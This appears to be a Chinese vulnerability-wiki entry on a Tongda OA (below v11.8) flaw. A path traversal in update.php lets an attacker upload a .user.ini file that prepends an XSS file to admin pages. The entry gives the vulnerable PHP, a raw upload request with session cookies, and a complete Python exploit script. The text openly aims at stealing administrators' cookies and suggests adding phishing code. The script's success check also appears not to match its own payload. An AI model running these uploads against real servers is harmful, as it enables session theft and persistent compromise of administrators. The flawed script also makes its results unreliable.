







# 通达OA v11.8 update.php 后台文件包含XSS漏洞

## 漏洞描述

通达OA v11.8以下存在文件上传接口，可上传 .user.ini 文件包含有xss语句的文件，使管理员后台文件均包含XSS语句，被攻击者获取敏感信息

参考阅读：

- https://paper.seebug.org/1499/

## 漏洞影响

```
通达OA < v11.8
```

## 环境搭建

[通达OA v11.6下载链接](https://cdndown.tongda2000.com/oa/2019/TDOA11.6.exe)

下载完毕点击安装即可

## 漏洞复现

这里使用的环境为通达 v11.6版本，v11.6版本中的漏洞利用较好，在 v11.7 后续版本中规定了上传路径，导致XSS利用会比较困难

出现漏洞的文件为 **webroot/general/hr/manage/staff_info/update.php**

```php
<?php

include_once "inc/auth.inc.php";
include_once "inc/utility_all.php";
include_once "inc/utility_file.php";
include_once "inc/utility_field.php";
include_once "inc/utility_cache.php";
include_once "general/system/log/annual_leave_log.php";
if (strstr($BYNAME, "/") || strstr($BYNAME, "\\") || strstr($BYNAME, "..")) {
	Message(_("错误"), _("OA用户名包含非法字符！"));
	exit();
}

include_once "inc/header.inc.php";
echo "\r\n<body class=\"bodycolor\">\r\n";
echo "\r\n<body class=\"bodycolor\">\r\n";
$PHOTO_NAME0 = $_FILES["ATTACHMENT"]["name"];
$ATTACHMENT = $_FILES["ATTACHMENT"]["tmp_name"];

if ($PHOTO_NAME0 != "") {
	$FULL_PATH = MYOA_ATTACH_PATH . "hrms_pic";

	if (!file_exists($FULL_PATH)) {
		@mkdir($FULL_PATH, 448);
	}

	$PHOTO_NAME = $USER_ID . substr($PHOTO_NAME0, strrpos($PHOTO_NAME0, "."));
	$FILENAME = MYOA_ATTACH_PATH . "hrms_pic/" . $PHOTO_NAME;
	td_copy($ATTACHMENT, $FILENAME);

	if (file_exists($ATTACHMENT)) {
		unlink($ATTACHMENT);
	}

	if (!file_exists($FILENAME)) {
		Message(_("附件上传失败"), _("原因：附件文件为空或文件名太长，或附件大于30兆字节，或文件路径不存在！"));
		Button_Back();
		exit();
	}
}
```



在这里参数 **$USER_ID** 是可控的，并且无过滤危险符号就拼接进去了，那我们传入 **../../../** 我们就可以任意文件上传了

由于通达OA 的文件上传限制的死死的，所以我们可以通过利用 PHP的 **.user.ini** 文件来包含其他文件，这里是可以用于包含XSS语句的文件的，所以我们上传文件

内容为

```plain
auto_prepend_file=test.log
```

我们想要最大化利用可以上传在**首页或者管理员** 界面，利用自定义弹窗来渗透

这里对管理员页面 **general** 目录上传

请求包为

```plain
POST /general/hr/manage/staff_info/update.php?USER_ID=../../general/.user HTTP/1.1
Host: 192.168.1.105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17518323986548992951984057104
Content-Length: 365
Connection: close
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31
Upgrade-Insecure-Requests: 1

-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="ATTACHMENT"; filename="peiqi.ini"
Content-Type: text/plain

auto_prepend_file=peiqi.log
-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="submit"

提交
-----------------------------17518323986548992951984057104--
```

其中 **USER_ID=../../general/.user** 为上传路径

```plain
Content-Disposition: form-data; name="ATTACHMENT"; filename="peiqi.ini"
Content-Type: text/plain

auto_prepend_file=peiqi.log
```

这里拼接后上传就变成了 **.user.ini**



这里再上传 XSS文件 **peiqi.log** 被包含进去



上传后每次管理员登录后都会带着Cookie请求一次XSS平台



钓鱼什么的代码写在peiqi.log文件里就好啦

刚刚提到了 v11.7版本不方便利用，这是因为在后续版本加上了文件上传的规定路径



```php
if ((strpos($source, "webroot") !== false) && (strpos($source, "attachment") === false)) {
		return false;
	}
	else {
		return true;
	}
```

路径中必须要包含  **webroot 和 attachment** 才可以上传



这里XSS的利用点有4个文件夹，其中最有几率XSS的为**存储目录管理的文件夹**



用同样的方法上传利用文件，每次当管理员设置时就会盗取Cookie

## 漏洞POC

因为是xss可能对目标有影响，所以这里POC在一个不常用目录探测是否存在漏洞

Cookie填写访问后台时的Cookie, 其中的base64解码更改 PeiQi_Wiki为 自己的XSS语句

v11.6及以下 攻击 /general 和 /general/system/attachment 目录较好

v11.6以上 攻击  /general/system/attachment 目录较好

```python
import requests
import sys
import random
import re
import base64
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 通达OA < V11.8                                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCookie      >>> xxxxxxxxxxxxxxxxxxxxxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/.user"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie": Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0icGVpcWkuaW5pIgpDb250ZW50LVR5cGU6IHRleHQvcGxhaW4KCmF1dG9fcHJlcGVuZF9maWxlPXBlaXFpLmxvZwotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0CkNvbnRlbnQtRGlzcG9zaXRpb246IGZvcm0tZGF0YTsgbmFtZT0ic3VibWl0IgoK5o+Q5LqkCi0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tMTc1MTgzMjM5ODY1NDg5OTI5NTE5ODQwNTcxMDQtLQ==")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传.user.ini文件, \033[0m".format(target_url))
            POC_2(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传.user.ini文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, Cookie):
    vuln_url = target_url + "/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop\workshop/report/attachment-remark/test"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate",
        "Content-Type": "multipart/form-data; boundary=---------------------------17518323986548992951984057104",
        "Connection": "close",
        "Cookie":  Cookie,
        "Upgrade-Insecure-Requests": "1",
    }
    data = base64.b64decode("LS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9IkFUVEFDSE1FTlQiOyBmaWxlbmFtZT0icGVpcWkubG9nIgpDb250ZW50LVR5cGU6IHRleHQvcGxhaW4KClBlaVFpX1dpa2kKLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0xNzUxODMyMzk4NjU0ODk5Mjk1MTk4NDA1NzEwNApDb250ZW50LURpc3Bvc2l0aW9uOiBmb3JtLWRhdGE7IG5hbWU9InN1Ym1pdCIKCuaPkOS6pAotLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLS0tLTE3NTE4MzIzOTg2NTQ4OTkyOTUxOTg0MDU3MTA0LS0=")
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/test \033[0m".format(target_url))
        if "档案已保存" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传 test.log 文件, \033[0m".format(target_url))
            POC_3(target_url, Cookie)
        else:
            print("\033[31m[x] 目标 {} 上传 test.log 文件失败\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, Cookie):
    vuln_url = target_url + "/general/reportshop/workshop/report/attachment-remark/form.inc.php?test=test"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Cookie":  Cookie,
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/general/reportshop/workshop/report/attachment-remark/form.inc.php?test=test \033[0m".format(target_url))
        if "test_Wiki" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 存在漏洞，响应中包含 test_Wiki,存在XSS漏洞, 可参考阅读写的利用版本进一步攻击 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞，响应中不包含 test_Wiki\033[0m".format(target_url))
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Cookie = "USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31"
    POC_1(target_url, Cookie)
```


